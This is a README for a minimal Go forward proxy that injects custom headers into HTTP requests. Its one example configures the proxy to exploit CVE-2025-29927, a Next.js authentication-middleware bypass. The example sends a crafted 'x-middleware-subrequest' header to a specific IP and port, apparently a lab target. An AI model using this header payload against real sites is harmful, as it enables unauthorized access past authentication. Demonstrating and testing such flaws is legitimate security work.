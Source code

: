 # Poor man's forward proxy
[![Go Tests](https://github.com/SaremS/pmfp/actions/workflows/go.yml/badge.svg?branch=master)](https://github.com/SaremS/pmfp/actions/workflows/go.yml)

## Summary
(currently http only)

Forward proxy with minimal features (currently only adds custom headers to each request)
## Usage
Currently
```
go run cmd/main.go --config {config-yaml; see examples} --port {target port to bind proxy to}
```

## Example
### CVE-2025-29927
(Auth-Middleware bypass in Next.JS)

#### Config (see examples):
``
scope:
- type: exact_match
  target_host: 94.237.57.115:54987
request_manipulators:
- type: add_header
  header_name: x-middleware-subrequest
  header_value: "middleware:middleware:middleware:middleware:middleware"
```

#### Result:
![Demo](examples/cve_2025_29927_example.gif)
